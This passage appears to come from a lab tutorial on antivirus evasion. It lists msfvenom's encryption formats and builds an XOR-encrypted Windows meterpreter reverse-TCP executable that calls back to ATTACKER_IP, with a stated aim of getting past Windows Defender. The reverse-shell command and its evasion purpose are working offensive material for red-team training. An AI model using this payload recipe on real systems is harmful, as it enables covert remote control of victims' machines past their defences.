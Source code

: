 ![Windows Defender detected our payload as malicious!](./assets/747c69e737c96044123329c47845f659.png)If encoding doesn't work, we can always try encrypting the payload.  Intuitively, we would expect this to have a higher success rating, as  decrypting the payload should prove a harder task for the AV. Let's try that now.

### Encryption using MSFVenom

You can easily generate encrypted payloads using msfvenom. The  choices for encryption algorithms are, however, a bit scarce. To list  the available encryption algorithms, you can use the following command:

- **Listing encryption modules within the Metasploit Framework**

```shell-session
user@AttackBox$ msfvenom --list encrypt
Framework Encryption Formats [--encrypt <value>]
================================================
Name
----
aes256
base64
rc4
xor
        
```

Let's build an XOR encrypted payload. For this type of algorithm, you will need to specify a key. The command would look as follows:

- **Xoring Shellcode using the Metasploit Framework**

```shell-session
user@AttackBox$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: xored-revshell.exe
        
```

